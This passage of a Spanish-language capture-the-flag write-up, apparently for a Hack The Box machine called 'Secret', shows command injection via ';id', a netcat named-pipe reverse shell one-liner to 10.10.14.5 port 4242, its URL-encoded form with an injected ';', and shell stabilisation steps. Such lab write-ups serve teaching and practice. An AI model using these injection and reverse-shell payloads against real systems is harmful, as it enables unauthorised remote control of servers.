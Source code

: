 ```bash
;id
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SECRET/images/28.png)

funciono tenemos RCE.

por lo que yo colocare una reverse shell en bash, anteponiendo un ";" para especificar otro comando (esta funciono es mi caso):

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4242 >/tmp/f
```

pero ya que va por la url y los espacios y caracteres especiales suelen dar problemas lo voy a encodear en URL:

```bash
%3Brm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.5%204242%20%3E%2Ftmp%2Ff
```

nos colocamos a la escucha y temeos una conexion:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SECRET/images/29.png)

hagaos un tratamiento de la tty:

```bash
script /dev/null -c bash
ctrl Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

tenemos una shell mas util y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SECRET/images/30.png)
